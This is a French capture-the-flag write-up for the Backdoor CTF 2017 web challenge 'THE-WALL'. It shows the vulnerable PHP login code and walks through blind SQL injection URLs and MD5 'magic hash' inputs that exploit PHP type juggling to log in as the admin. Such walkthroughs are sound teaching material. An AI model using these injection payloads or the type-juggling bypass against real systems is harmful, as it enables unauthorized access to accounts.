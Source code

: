 Backdoor CTF 2017: THE-WALL
-------

**Catégorie**: Web **Points**: 100 **Description**:

> Night king needs the secret flag to destroy the wall. Help night king get flag from Lord Commander so that army of dead can kill the living
http://163.172.176.29/WALL


Write up
-------

Dans un premier temps en cliquant sur le lien on arrive sur la page http://163.172.176.29/WALL/login.html

On va commencer par regarder le code source de la page voir s'il n'y a pas d'indices:

```html
    <html>
    <head>
    <title>The Wall</title>
    </head>
    <body>
    <form action="index.php" method="POST">
    Username:<input type="text" name="life" /><br>
    Password:<input type="password" name="soul" /><br>
    <input type="submit">
    </form>
    <br>
    Here is the source of <a href="source.php">index.php</a>
    </body>
    </html>
```

On sait maintenant qu'il y a "life" et "soul" envoyés en POST sur la page "index.php".

Maintenant on va regarder la source de la page "index.php" en cliquant sur le lien hypertexte:

```php
    <html>
    <head>
    <title>The Wall</title>
    </head>
    <body>
    <?php
    include 'flag.php';
    if(isset($_REQUEST['life'])&&isset($_REQUEST['soul'])){
        $username = $_REQUEST['life'];
        $password = $_REQUEST['soul'];
        if(!(is_string($username)&&is_string($password))){
            header( "refresh:1;url=login.html");
            die("You are not allowed south of wall");
        }
        $password = md5($password);
        include 'connection.php';
        /*CREATE TABLE IF NOT EXISTS users(id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,role TEXT)*/
        $message = "";
        if(preg_match('/(union|\|)/i', $username)){
            $message="Dead work alone not in UNIONs"."</br>";
            echo $message;
            die();
        }
        $query = "SELECT * FROM users WHERE username='$username'";
        $result = $pdo->query($query);
        $users = $result->fetchArray(SQLITE3_ASSOC);
        if($users) {
            if($password == $users['password']){
                if($users['role']=="admin"){
                    echo "Here is your flag: $flag";
                }elseif($users['role']=="normal"){
                    $message = "Welcome, ".$users['users']."</br>";
                    $message.= "Unfortunately, only Lord Commander can access flag";
                }else{
                    $message = "What did you do?";
                }
            }
            else{
                $message = "Wrong identity for : ".$users['username'];
            }
        }
        else{
            $message = "No such person exists"."<br>";
        }
        echo $message;
    }else{
        header( "refresh:1;url=login.html");
        die("Only living can cross The Wall");
    }
    ?>
    </body>
    </html>
```

De cette façon on apprend plusieurs choses:

* Les deux champs ne peuvent pas être vides, et on peut envoyer notre "username" et notre "password" en GET car on a "$_REQUEST"
    ```php
        if(isset($_REQUEST['life'])&&isset($_REQUEST['soul'])){
            $username = $_REQUEST['life'];
            $password = $_REQUEST['soul'];
    ```
* Le hash du mot de passe est md5 (sa taille est donc de 32 caractères)
    ```php
        $password = md5($password);
    ```
* On sait que la table est "users" et que les colonnes sont: id, username, password, role
    ```php
        /*CREATE TABLE IF NOT EXISTS users(id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,role TEXT)*/
    ```
* On ne pourra pas faire d'union
    ```php
        if(preg_match('/(union|\|)/i', $username)){
            $message="Dead work alone not in UNIONs"."</br>";
            echo $message;
            die();
        }
    ```
* Il y a une injection sql sur username
    ```php
        $query = "SELECT * FROM users WHERE username='$username'";
        $result = $pdo->query($query);
    ```

On va pouvoir commencer notre blind SQLI en récupérant dans un premier temps le pseudo de l'administrateur:

```
   http://163.172.176.29/WALL/index.php?soul=tt&life=' OR role='admin' -- '
```

Bingo ! On obtient le nom d'utilisateur qui est "LordCommander" (comme c'est bizarre).

Maintenant on va commencer par récupérer le mot de passe à la main (comme on est noob) avec des valeurs numérique (on commence par zéro):

```
    http://163.172.176.29/WALL/index.php?soul=tt&life=LordCommander' AND password like '0%' -- '
```

On a un résultat positif et si le mot de passe commence par 0e on aurait un bug sur du type juggling et c'est logique avec:

```php
    $password = md5($password);
```

On test donc avec "0e":

```
    http://163.172.176.29/WALL/index.php?soul=tt&life=LordCommander' AND password like '0e%' -- '
```

C'est encore gagné ! On a beaucoup de chance aujourd'hui !
On va maintenant pouvoir tester avec un mot de passe qui en md5 commence par "0e" et qui retourne vrai pour:

```php
    if($password == $users['password'])
```

Voici des mots qui fonctionnent:

```
    240610708
    QNKCDZO
    aabg7XSs
```

On envoi donc notre combinaison nom d'utilisateur et mot de passe:

```php
    http://163.172.176.29/WALL/index.php?soul=QNKCDZO&life=LordCommander
```
Bim ! On a le flag qui s'affiche et on gagne 100 points.
<p align="center">
![Snow](images/snow.jpeg)
</p>
